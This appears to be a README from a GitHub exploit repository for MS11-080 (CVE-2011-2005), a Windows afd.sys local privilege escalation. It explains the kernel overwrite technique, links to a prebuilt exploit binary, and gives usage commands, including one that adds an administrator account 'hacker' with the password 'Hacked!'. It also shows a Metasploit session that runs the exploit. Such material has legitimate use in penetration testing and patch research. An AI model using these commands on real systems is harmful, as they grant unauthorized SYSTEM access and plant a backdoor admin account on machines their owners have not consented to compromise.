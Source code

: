 # MS11-080 
```
This module exploits a flaw in the AfdJoinLeaf function of the afd.
sys driver to overwrite data in kernel space. 
An address within the HalDispatchTable is overwritten 
and when triggered with a call to NtQueryIntervalProfile will execute shellcode. 
This module will elevate itself to SYSTEM, then inject the payload into another 
SYSTEM process before restoring it's own token to avoid causing system instability.
```
- The exp was from [@BHaFSec](www.bhafsec.com/files/windows/ms11-080.exe)

Vulnerability reference:
 * [MS11-080](https://technet.microsoft.com/library/security/ms11-080)
 * [CVE-2011-2005](https://www.exploit-db.com/exploits/18176/)

## Usage
+ c:\\> ms11-080.exe -O 2k3 
+ c:\\> ms11-080-AddUser.exe -O 2k3
+ [*] Adding Admin User:hacker Pass:Hacked!...

![win2003](win2003.png)

##  load the module within the msf
- [msf](https://www.rapid7.com/db/modules/exploit/windows/local/ms11_080_afdjoinleaf)
```
msf > use exploit/windows/local/ms11_080_afdjoinleaf
msf exploit(ms11_080_afdjoinleaf) > show targets
    ...targets...
msf exploit(ms11_080_afdjoinleaf) > set TARGET <target-id>
msf exploit(ms11_080_afdjoinleaf) > show options
    ...show and set options...
msf exploit(ms11_080_afdjoinleaf) > exploit
```
